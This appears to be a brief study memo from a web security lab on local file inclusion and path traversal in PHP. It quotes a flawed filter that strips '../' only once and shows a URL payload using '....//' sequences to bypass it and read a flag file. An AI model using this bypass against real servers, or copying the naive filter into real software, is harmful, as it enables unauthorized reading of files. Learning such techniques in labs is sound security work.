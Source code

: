 # Lesson
- LFI (Local File Inclusion)
    - Path Traversal Deep Dive
- php
    - Wrappers 


# Memo
```php
$language = str_replace('../', '', $_GET['language']);
# can bypass with ....// -> ../
```
```
http://XXX.XXX.XXX.XXX:PORT/index.php?language=languages/....//....//....///....//flag.txt
```